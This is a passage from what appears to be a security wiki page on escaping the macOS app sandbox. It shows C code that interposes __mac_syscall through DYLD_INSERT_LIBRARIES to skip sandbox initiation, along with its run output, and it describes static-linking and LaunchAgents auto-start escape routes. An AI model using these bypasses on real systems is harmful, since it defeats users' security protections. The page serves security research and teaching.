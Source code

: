 ```c
    }
    // Call the original function for other cases
    return __mac_syscall(_policyname, _call, _arg);
}

// Interpose Definition
struct interpose_sym {
    const void *replacement;
    const void *original;
};

// Interpose __mac_syscall with my_mac_syscall
__attribute__((used)) static const struct interpose_sym interposers[] __attribute__((section("__DATA, __interpose"))) = {
    { (const void *)my_mac_syscall, (const void *)__mac_syscall },
};
```
{% endcode %}

```bash
DYLD_INSERT_LIBRARIES=./interpose.dylib ./sand

__mac_syscall invoked. Policy: Sandbox, Call: 2
__mac_syscall invoked. Policy: Sandbox, Call: 2
__mac_syscall invoked. Policy: Sandbox, Call: 0
Bypassing Sandbox initiation.
__mac_syscall invoked. Policy: Quarantine, Call: 87
__mac_syscall invoked. Policy: Sandbox, Call: 4
Sandbox Bypassed!
```

### Static Compiling & Dynamically linking

[**This research**](https://saagarjha.com/blog/2020/05/20/mac-app-store-sandbox-escape/) discovered 2 ways to bypass the Sandbox. Because the sandbox is applied from userland when the **libSystem** library is loaded. If a binary could avoid loading it, it would never get sandboxed:

* If the binary was **completely statically compiled**, it could avoid loading that library.
* If the **binary wouldn't need to load any libraries** (because the linker is also in libSystem), it won't need to load libSystem.&#x20;

### Shellcodes

Note that **even shellcodes** in ARM64 needs to be linked in `libSystem.dylib`:

```bash
ld -o shell shell.o -macosx_version_min 13.0
ld: dynamic executables or dylibs must link with libSystem.dylib for architecture arm64
```

### Abusing Auto Start Locations

If a sandboxed process can **write** in a place where **later an unsandboxed application is going to run the binary**, it will be able to **escape just by placing** there the binary. A good example of this kind of locations are `~/Library/LaunchAgents` or `/System/Library/LaunchDaemons`.
